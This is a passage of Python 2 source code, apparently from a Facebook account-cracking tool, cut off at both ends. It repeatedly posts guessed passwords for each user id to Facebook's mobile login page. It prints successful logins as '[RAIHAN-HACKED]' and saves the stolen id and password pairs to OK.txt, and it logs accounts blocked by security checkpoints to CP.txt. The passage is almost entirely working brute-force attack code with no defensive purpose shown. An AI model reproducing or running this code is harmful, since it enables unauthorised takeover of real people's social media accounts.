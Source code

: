                                             oks.append(uid + ps8)
                                        elif 'checkpoint' in sp:
                                            print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps8 + '\x1b[0;97m'
                                            cp = open('CP.txt', 'a')
                                            cp.write(uid + '|' + ps8 + '\n')
                                            cp.close()
                                            cps.append(uid + ps8)
                                        else:
                                            data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                'email': uid,
                                                'pass': ps9,
                                                'login': 'submit' })
                                            sp = data.content
                                            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps9 + '\x1b[0;97m'
                                                ok = open('OK.txt', 'a')
                                                ok.write(uid + '|' + ps9 + '\n')
                                                ok.close()
                                                oks.append(uid + ps9)
                                            elif 'checkpoint' in sp:
                                                print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps9 + '\x1b[0;97m'
                                                cp = open('CP.txt', 'a')
                                                cp.write(uid + '|' + ps9 + '\n')
                                                cp.close()
                                                cps.append(uid + ps9)
                                            else:
                                                data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                    'email': uid,
                                                    'pass': ps10,
                                                    'login': 'submit' })
                                                sp = data.content
                                                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                    print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps10 + '\x1b[0;97m'
                                                    ok = open('OK.txt', 'a')
                                                    ok.write(uid + '|' + ps10 + '\n')
                                                    ok.close()
                                                    oks.append(uid + ps10)
                                                elif 'checkpoint' in sp:
                                                    print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps10 + '\x1b[0;97m'
                                                    cp = open('CP.txt', 'a')
                                                    cp.write(uid + '|' + ps10 + '\n')
                                                    cp.close()
                                                    cps.append(uid + ps10)
                                                else:
                                                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                        'email': uid,
                                                        'pass': ps11,
                                                        'login': 'submit' })
                                                    sp = data.content
                                                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                        print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps11 + '\x1b[0;97m'
                                                        ok = open('OK.txt', 'a')
                                                        ok.write(uid + '|' + ps11 + '\n')
                                                        ok.close()
                                                        oks.append(uid + ps11)
                                                    elif 'checkpoint' in sp:
                                                        print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps11 + '\x1b[0;97m'
                                                        cp = open('CP.txt', 'a')
                                                        cp.write(uid + '|' + ps11 + '\n')
                                                        cp.close()
                                                        cps.append(uid + ps11)
                                                    else:
                                                        data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                            'email': uid,